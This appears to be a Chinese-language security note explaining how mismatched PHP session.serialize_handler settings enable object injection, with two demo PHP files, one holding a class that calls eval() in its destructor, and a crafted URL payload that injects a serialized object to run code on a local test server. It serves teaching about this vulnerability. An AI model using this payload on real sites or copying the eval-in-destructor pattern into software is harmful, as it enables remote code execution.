


# Session的不同解析方式

## 参考

- https://secure.php.net/manual/zh/session.configuration.php#ini.session.serialize-handler
- https://blog.spoock.com/2016/10/16/php-serialize-problem/

## 分析
PHP中的Session的实现是没有的问题，但在php.ini中session.serialize_handler可以设置序列化/解序列化的处理器名字，默认处理引擎是PHP，另外还有2个。
- `php_binary`：键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- `php`：键名+竖线+经过serialize()函数序列处理的值
- `php_serialize(PHP>5.5.4)`：经过serialize()函数序列化处理的值


在php中，`session.serialize_handler`可以通过`ini_set('session.serialize`
`_handler','xxxxx')`来设置。如果通过`ini_set`函数使得PHP处理session时，序列化和反序列化的处理器不同，那么就可能造成漏洞。

## 利用

**index.php**

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
```

us2.php
```php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon {
    var $hi;
    function __construct(){
        $this->hi = 'phpinfo();';
    }
    
    function __destruct() {
         eval($this->hi);
    }
}
```

访问

```php
http://127.0.0.1/?a=|O:5:%22lemon%22:1:{s:2:%22hi%22;s:14:%22echo%20%22spoock%22;%22;}
```

然后访问

```php
http://127.0.0.1/us2.php
```


